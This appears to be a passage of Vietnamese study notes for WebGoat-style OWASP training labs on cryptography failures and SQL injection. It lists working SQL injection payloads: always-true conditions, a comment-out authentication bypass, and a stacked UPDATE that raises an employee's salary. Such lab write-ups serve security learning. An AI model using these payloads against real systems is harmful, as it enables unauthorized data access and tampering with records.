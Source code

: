 ![image.png]((A2)%20Cryptography%20Failures%2072bef8560ad34a86b98da2ac89261c09/image%203.png)

# Lab 5

- Copy private key vào một file
- Sau đó dùng openssl

![image.png]((A2)%20Cryptography%20Failures%2072bef8560ad34a86b98da2ac89261c09/image%204.png)
[(A3) Injection]((A3)%20Injection.md)
# (A3) Injection

# SQL Injection (Intro)

## Lab 9

- Để lấy được tất cả dữ liệu trong bảng thì chỉ cần làm logic query thành một query luôn đúng

```sql
SELECT * FROM user_data WHERE first_name = 'John' AND last_name = ‘’ or ‘1’=’1’
```

### Lab 10

- Để lấy được tất cả dữ liệu trong bảng thì chỉ cần làm logic query thành một query luôn đúng

```sql
SELECT * FROM user_data WHERE login_count = 0 AND userid = 0 or 1 = 1
```

### Lab 11

- Payload

```sql
SELECT * FROM employees WHERE last_name = '' or 1=1 -- AND auth_tan = ''
```

### Lab 12

- Để bypass lab này thì cần phải update giá trị lương của Smith, lúc này phải sử dụng Query Chain để chèn câu lệnh update vào sau câu lệnh select
- Payload

```sql
Employee Name: <Anything>
Authentication TAN: '; UPDATE employees SET salary = 1000000 WHERE userid = '37648
```

### Lab 13

- Payload
